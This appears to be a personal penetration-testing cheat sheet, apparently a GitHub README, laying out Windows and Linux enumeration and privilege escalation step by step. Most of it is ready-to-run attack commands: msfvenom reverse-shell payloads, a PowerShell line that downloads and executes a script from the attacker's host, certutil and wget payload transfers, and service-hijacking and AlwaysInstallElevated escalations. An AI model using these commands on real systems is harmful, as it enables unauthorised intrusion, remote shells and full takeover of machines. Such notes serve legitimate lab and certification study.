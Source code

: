 ## Setting
1.export ip=10.10.10.10\
1.5 make directory for nmap result: mkdir nmap && cd nmap
## Ennumeration
2. `nmap -sC -sV -p- -Pn $ip --open -oN result`   AND  `rustscan -a $IP and rustscan -a $IP`. 
3. Check which ports are open. Take note of service running and versions(for searchsploit)\
4. Manual ennumeration. Visit the open ports to see if we can get initial foothold information. e.g anoymous login, default login,etc\
5. Check for vulnerabiltieis on specific ports using nmap script `nmap -p 80,445,139 --script=*vuln* $IP`
## Check vulnerabilities and enumerate for each port
0. Go to the differnet MD files in the repo.

## Creating a reverseshell, uploading a revershell  / creating a stageless payload
0. `msfvenom -p windows/shell_reverse_tcp LHOST=myIP LPORT=1237 -f exe  -o reverse.exe` 
1. `msfvenom -p windows/shell_reverse_tcp LHOST=myIP LPORT=1234 -f asp -o reverse.asp` 

## File Transfer to Window 

### File transfer via own web server
0. `python3 -m http.server 8080` from linux
1. `powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://myIP:80/winpeas.exe', 'winpeas.exe') -exec bypass` from window
2. `certutil.exe -urlcache -f  http://myIp:80/winpeas.exe` from window
### File Transfer via SMB
0. `mkdir share` and move files to transfer
1. `impacket-smbserver smb share/ ` from linux
2. `net use \\myIP\smb` from window
3. `copy \\myIP\smb\winpeas.exe   \windows\temp\winpeas.exe` 

 ## Privilege Escalation for Window
 0. Use PowerUp
 1. `Import-Module .\PowerUp.ps1` or `. .\PowerUp.ps1`
 2. `Invoke-AllChecks`
 3. or `powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://myIP:80/PowerUp.ps1');Invoke-AllChecks"`
 4. Use WinPeas
 5. `winpeas.exe`
 6. Use SharUp if you cant run winpeas or powerup 
 7. `.\SharpUp.exe`
 ## Service Misconfiguration
- `sc.exe qc <name>` Query the configuration of a service
- `sc.exe query <name>`Query the current status of a service
- `sc.exe config <name> <option>= <value>`Modify a configuration option of a service
`- net start/stop <name>`#Start/Stop a service
### Insecure Service Permissions (Modifileable service)
0. If our user has permission to change the configuration of a service which runs with SYSTEM privileges, we can change the executable the service uses to one of our own.
1. Things to look for (e.g. SERVICE_STOP, SERVICE_START).
2. Things to look for (e.g. SERVICE_CHANGE_CONFIG, SERVICE_ALL_ACCESS)
3. Things to look out for ***Rabit Hole*** If you can change a service configuration but cannot stop/start the service, you may not be able to escalate privileges!
4. `.\winPeas.exe quiet servicesinfo` query for only services
5. `.\accesschk.exe /accepteula -uwcqv user <SERVICENAME>`  confirm with accesscheck that we can change_CONFIG and start service.
6.  `sc qc <SERVICENAME>`  query the service configuration and look at start type, binary path name, dependencies
7.  `sc query <SERVICENAME>` check the current status of the service.
8.  `sc config <SERVICENAME> binpath="\"C:\PrivEsc\reverse.exe\""` set the binary path to the location of the revershell payload. 
9.  Start a netcat listener and `net start <SERVICENAME>`
 ### Unquoted Service Path
 0. `.\winPeas.exe quiet servicesinfo` Look for No quotes and Space detected in winpeas
 1. `Get-UnquotedService` (PowerUp) or `wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" | findstr /i /v """`\ 
 2. `.\accesschk.exe /accepteula -uwcqv user <SERVICENAME>` check permission if we can start the service.
 3. Use accesschk.exe to check for write permissions in each binary path
``` 
> .\accesschk.exe /accepteula -uwdq C:\
> .\accesschk.exe /accepteula -uwdq "C:\Program Files\"
> .\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
```
 6.`msfvenom -p windows/shell_reverse_tcp LHOST=myIP LPORT=LISTENINGPORT -f exe  -o Program.exe` (Name payload accordingly to the path writable)\
 7.`sc start unquotedsvc` or restart box.
 

 ### Writable Service Executable
  0.`Invoke-AllChecks`\
  1.`msfvenom -p window/shell_reverse_tcp LHOST=MyIP LPORT=LISTENINGPORT -f exe >service.exe`  (payload name has to be same as writable service) 

 ### AlwaysInstallElevate
 check if both values are 1.\
 0.`reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`\
 1.`reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`\
 2. `msfvenom -p window/shell_reverse_tcp LHOST=MyIP LPORT=LISTENINGPORT -f msi >payload.msi`  (create a payload) 
 3. Transfer payload to Temp and execute
 4. `msiexec /i "C:\Windows\Temp\payload.msi"`


 ### SeImpersonatePrivilege 
 
 
 ### Kernal exploits (last resort)
 0. Extract `systeminfo` and save it to systeminfo.txt in kali (should be in same directory)
 1. `python wes.py systeminfo.txt -i 'Elevation of Privilege' --exploits-only | more`
 2. cross reference with the site https://github.com/SecWiki/windows-kernel-exploits to see if we have binaries
 3. Move the binary to window victim and run it with reverseshell to get root. 
 4. open netcat listener 
 5.  `.\x64.exe C:\PrivEsc\reverse.exe`
 
## File Transfer to Linux 
0.`python3 -c 'import pty; pty.spawn("/bin/bash")'` `export TERM=xterm-256color` Stabalize shell \
1.`python3 -m http.server 8080` `or( 80)`
2.`cd /tmp` move directory where we have write access.
4.`wget http://$myIP:8080/linEum.sh .` \
7.Or manually download the latest linpeas https://github.com/carlospolop/PEASS-ng/releases/tag/20221225

## Privilege Escalation for Linux
0. `curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh` which would execute script (run from cd /tmp)
1. `chmod +x linpeas.sh` and `./linpeas.sh`


